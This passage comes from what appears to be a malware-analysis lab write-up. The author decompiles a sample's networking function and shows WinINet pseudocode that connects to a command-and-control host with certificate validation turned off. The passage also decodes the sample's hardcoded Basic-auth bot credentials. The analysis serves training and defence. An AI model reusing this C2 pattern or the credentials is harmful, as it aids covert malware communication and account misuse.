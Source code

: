 I'll find references to one of the globals, and there are two each:

![](/img/image-20240501184823717.png)

The first line context is "WRITE", which is what I was just looking at.
Jumping to the "READ", all of them land in `FUN_2ac401dc0`, which has a
bunch more strings to decode and uses the functions:

![](/img/image-20240507131745117.png)

This function ends up as the following pseudocode:



    hinternet = InternetOpenA("Curl/7.68.0", 0, 0, 0, 0)
    hsession = InternetConnectA(hinternet, "toyy.zulipchat.com", 443, 0, 0, 0, INTERNET_SERVICE_HTTP, 0, 1)
    hrequest = HttpOpenRequestA(hsession, param1, param2, 0, 0, 0, 0x44c03100, 1)
    successful = HttpSendRequestA(hrequest, headers, len(headers), param_3, param4)
    InternetReadFile(hrequest, global_buffer, 0x100000, bytes_read_buffer)



The flags for `HttpOpenRequestA`, 0x44c03100, are interesting, and as
defined
[here](https://learn.microsoft.com/en-us/windows/win32/wininet/api-flags)
break down to:

-   0x40000000: **INTERNET_FLAG_RAW_DATA**
-   0x04000000: **INTERNET_FLAG_DONT_CACHE**
-   0x00800000: **INTERNET_FLAG_SECURE**
-   0x00400000: **INTERNET_FLAG_KEEP_CONNECTION**
-   0x00002000: **INTERNET_FLAG_IGNORE_CERT_DATE_INVALID**
-   0x00001000: **INTERNET_FLAG_IGNORE_CERT_CN_INVALID**
-   0x00000100:**INTERNET_FLAG_PRAGMA_NOCACHE**

The `headers` from `HttpSendRequestA` are also interesting:



    Content-Type: application/x-www-form-urlencoded
    Authorization: Basic Z2Ficy1ib3RAdG95eS56dWxpcGNoYXQuY29tOnhKWmY4amFxd1g1NEhXYWxpWGZtNHUyYk1XQ3pOb0x6



The Basic auth decodes to a username and password:



    oxdf@hacky$ echo "Z2Ficy1ib3RAdG95eS56dWxpcGNoYXQuY29tOnhKWmY4amFxd1g1NEhXYWxpWGZtNHUyYk1XQ3pOb0x6" | base64 -d
    gabs-bot@toyy.zulipchat.com:xJZf8jaqwX54HWaliXfm4u2bMWCzNoLz




[« HTB: Einladen](/htb-sherlock-einladen.md)






